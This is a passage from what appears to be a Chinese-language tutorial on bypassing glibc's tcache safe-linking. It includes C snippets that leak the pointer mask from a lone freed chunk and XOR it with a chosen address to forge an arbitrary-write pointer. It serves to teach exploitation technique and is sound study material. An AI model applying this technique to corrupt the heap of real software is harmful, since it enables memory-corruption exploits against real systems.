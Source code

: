 首先，我们释放C2，它进入空的tcache bin。

```
// Free c2, which is moved into the now-open tcache bin
free(c2);
c2 = NULL;
```

### <a class="reference-link" name="%E6%AD%A5%E9%AA%A47b%20-%20%E4%BD%BF%E7%94%A8%E5%8E%9F%E5%A7%8BC%E6%8C%87%E9%92%88%E8%AF%BB%E5%8F%96%20L%20&gt;&gt;%2012"></a>步骤7b – 使用原始C指针读取 L &gt;&gt; 12

我们现在可以通过读取c中的前8个字节来读取C2-&gt;fd，这是经过编码的P’值。

但C2是tcache中唯一的块，所以P为NULL。这意味着编码指针是：

```
P' == L &gt;&gt; 12 ^ P == L &gt;&gt; 12 ^ 0 == L &gt;&gt; 12
```

我们不需要泄漏地址L。我们可以使用L&gt;&gt;12来编码这个块的指针！

```
// Read the P' value in the fd pointer location using original C
// Except, it already contains L &gt;&gt; 12! Since it was
// the only chunk in the tcache bin, it protected a NULL
// ptr which wrote the unmodified mask.
uint64_t L12 = *(int64_t *)c;
```

### <a class="reference-link" name="%E6%AD%A5%E9%AA%A47c%20-%20%E7%BC%96%E7%A0%81%E6%88%91%E4%BB%AC%E7%9A%84%E4%BB%BB%E6%84%8F%E6%8C%87%E9%92%88"></a>步骤7c – 编码我们的任意指针

只需用任意地址对泄漏的L12进行XOR，就可以获得一个有效的编码指针。

注意:这并不是任意的。它仍然需要与16字节边界对齐，才能通过tcache_get（）中的对齐检查。但是，由于我们分配了一个足够大的缓冲区，可以使其位于unsorted bin中，我们可以向下取整到最接近的0x10边界，并在该缓冲区的某个偏移量处执行后续读/写操作，以达到目标地址。

```
// Now mask the arbitrary address we want to write to
uint64_t masked_ptr = L12 ^ (uint64_t) &amp;arbitrary_variable;
```



## 步骤8 – 设置一个有效的tcache链，然后用掩码指针破坏它

tcache结构不仅包含可用chunk的链表（tcache-&gt; entries），而且还具有一个并行数组，用于保存每个bin的当前长度（tcache-&gt;counts）。虽然我们现在可以覆盖C2-&gt; fd，但是我们写入的值不会作为malloc块返回，因为tcache-&gt;counts表示tcache中仅存在C2块。为了获得有效的计数，我们必须向bin中添加一个额外的块。

### <a class="reference-link" name="%E6%AD%A5%E9%AA%A48a%20-%20%E5%86%8D%E6%AC%A1%E5%88%86%E9%85%8D%E4%BB%A5%E4%BB%8Etcache%E4%B8%AD%E7%A7%BB%E9%99%A4C2"></a>步骤8a – 再次分配以从tcache中移除C2

